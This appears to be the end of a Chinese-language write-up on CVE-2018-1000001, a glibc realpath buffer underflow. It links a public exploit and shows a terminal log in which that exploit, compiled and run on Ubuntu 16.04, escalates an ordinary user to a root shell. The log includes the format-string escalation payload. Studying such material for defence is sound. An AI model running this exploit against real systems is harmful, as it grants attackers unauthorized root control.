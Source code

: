 Bingo!!!（需要注意的是其所支持的系统被硬编码进了利用代码中，可看情况进行修改。[exp](https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/RationalLove.c)）

```text
$ gcc -g exp.c
$ id
uid=999(ubuntu) gid=999(ubuntu) groups=999(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
$ ls -l a.out
-rwxrwxr-x 1 ubuntu ubuntu 44152 Feb  1 03:28 a.out
$ ./a.out
./a.out: setting up environment ...
Detected OS version: "16.04.3 LTS (Xenial Xerus)"
./a.out: using umount at "/bin/umount".
No pid supplied via command line, trying to create a namespace
CAVEAT: /proc/sys/kernel/unprivileged_userns_clone must be 1 on systems with USERNS protection.
Namespaced filesystem created with pid 7429
Attempting to gain root, try 1 of 10 ...
Starting subprocess
Stack content received, calculating next phase
Found source address location 0x7ffc3f7bb168 pointing to target address 0x7ffc3f7bb238 with value 0x7ffc3f7bd23f, libc offset is 0x7ffc3f7bb158
Changing return address from 0x7f24986c4830 to 0x7f2498763e00, 0x7f2498770a20
Using escalation string %69$hn%73$hn%1$2592.2592s%70$hn%1$13280.13280s%66$hn%1$16676.16676s%68$hn%72$hn%1$6482.6482s%67$hn%1$1.1s%71$hn%1$26505.26505s%1$45382.45382s%1$s%1$s%65$hn%1$s%1$s%1$s%1$s%1$s%1$s%1$186.186s%39$hn-%35$lx-%39$lx-%64$lx-%65$lx-%66$lx-%67$lx-%68$lx-%69$lx-%70$lx-%71$lx-%78$s
Executable now root-owned
Cleanup completed, re-invoking binary
/proc/self/exe: invoked as SUID, invoking shell ...
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),999(ubuntu)
# ls -l a.out
-rwsr-xr-x 1 root root 44152 Feb  1 03:28 a.out
```

## 参考资料

- [LibcRealpathBufferUnderflow](https://www.halfdog.net/Security/2017/LibcRealpathBufferUnderflow/)
- <https://github.com/5H311-1NJ3C706/local-root-exploits/tree/master/linux/CVE-2018-1000001>
- `man 3 getcwd`，`man 3 realpath`，`man mount_namespaces`
- [util-linux/sys-utils/umount.c](https://github.com/karelzak/util-linux/blob/master/sys-utils/umount.c)
